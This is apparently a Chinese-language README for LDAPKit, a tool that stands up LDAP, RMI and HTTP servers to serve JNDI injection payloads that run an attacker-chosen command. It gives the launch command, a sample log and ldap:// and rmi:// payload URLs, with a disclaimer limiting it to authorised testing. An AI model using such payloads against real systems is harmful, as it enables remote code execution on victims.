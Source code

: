 # LDAPKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 简介

自用的`LDAP`工具（无高级用法仅支持简单的漏洞复现）

无需自行编译`Java`文件和开启`HTTP`服务，一切自动

只要一行：`java -jar LDAPKit.jar [命令]`

例如：`java -jar LDAPKit.jar notepad.exe`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|
19:13:27 [INFO] [org.sec.ServerMain] start jndi kit
19:13:27 [INFO] [org.sec.ServerMain] cmd: calc.exe
19:13:27 [INFO] [org.sec.Http] start http server: 0.0.0.0:8000
19:13:27 [INFO] [org.sec.RMI] start rmi registry 0.0.0.0:1099
19:13:27 [INFO] [org.sec.Ldap] start ldap server: 0.0.0.0:1389
|--------------------------------------------------------|
|------Payload: ldap://127.0.0.1:1389/badClassName-------|
|------Payload: rmi://127.0.0.1:1099/badClassName-------|
|--------------------------------------------------------|
```

## 免责申明

**未经授权许可使用`LDAPKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


